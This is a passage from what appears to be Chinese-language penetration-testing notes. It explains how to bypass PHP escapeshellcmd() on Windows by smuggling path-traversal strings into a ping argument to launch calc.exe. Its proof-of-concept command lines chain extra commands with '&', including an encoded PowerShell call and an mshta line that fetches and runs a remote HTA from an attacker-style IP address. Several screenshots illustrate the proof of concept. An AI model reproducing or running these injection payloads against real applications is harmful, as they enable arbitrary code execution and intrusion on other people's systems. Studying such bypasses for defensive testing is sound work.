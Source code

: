 	From: https://hackingiscool.pl/
	poc完整的命令行
	cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/calc.exe"
	可能产生的影响
	包括拒绝服务，信息泄露，任意代码执行（取决于目标应用程序和系统）。
	以web应用为例
![image](/assets/Pentest_Note/master/img/660.png)

	由于使用了escapeshellcmd()，不易受命令注入的影响，使用本方法
	一个poc
![image](/assets/Pentest_Note/master/img/661.png)
![image](/assets/Pentest_Note/master/img/662.png)

	不限于任何位置，文件
![image](/assets/Pentest_Note/master/img/663.png)

	再扩展一下 
	如，powershell带-enc执行，或mshta等方法，可参考
	https://lolbas-project.github.io/，但是依照windows的特性，在无法将完整字符串解析为有效路径的情况下，会拆分空格后面的内容，这里可以使用&符号
	如：
	>cmd.exe /c "cmd /c /../../../../../../../../../../windows/system32/calc&powershell -enc xxxx"
	>cmd.exe /c "cmd /c /../../../../../../../../../../windows/system32/calc&mshta http://192.168.0.105:8080/xsuUEWJ.hta"